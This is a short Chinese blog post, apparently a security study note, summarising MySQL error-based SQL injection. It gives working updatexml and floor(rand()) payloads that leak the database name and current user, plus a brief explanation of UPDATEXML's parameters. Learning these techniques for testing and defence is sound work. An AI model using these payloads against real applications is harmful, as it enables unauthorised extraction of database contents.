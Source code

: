 ```yaml
---
layout: post
title: "MySQL报错注入小结"
subtitle: "MySQL报错注入小结"
date: 2019-08-07
author: ppbibo
category: 习信息安全系列
finished: true
---
```

[TOC]

```mysql
mysql> select * from users order by 3;
+----+-------------+---------+---------+------+--------+
| id | name        | chinese | english | math | Strong |
+----+-------------+---------+---------+------+--------+
|  6 | ZhangJinbao |      55 |      85 |   45 |     10 |
|  2 | LiJin       |      67 |      53 |   95 |     10 |
|  7 | HuangRong   |      75 |      65 |   30 |     10 |
|  5 | LiLaicai    |      82 |      84 |   67 |     10 |
|  3 | WangWu      |      87 |      78 |   77 |     10 |
|  4 | LiYi        |      88 |      98 |   92 |     10 |
|  1 | XiaoMing    |      89 |      78 |   90 |     10 |
+----+-------------+---------+---------+------+--------+
7 rows in set (0.00 sec)

```



**updatexml 报错注入**

```mysql
select * from users where id=1 and (updatexml(1,concat(0x3a,(select database())),1));
```



**解释：**

语法：UPDATEXML (XML_document, XPath_string, new_value);

第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc

第二个参数：XPath_string (Xpath格式的字符串)

第三个参数：new_value，String格式，替换查找到的符合条件的数据

**作用：改变文档中符合条件的节点的值。**





**floor 报错注入**

```mysql
select * from users where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);
```





[其他参考](http://www.mamicode.com/info-detail-2366760.html)



------

***「 转载请声明博客地址及APT086&QQ愛安全实验室 」***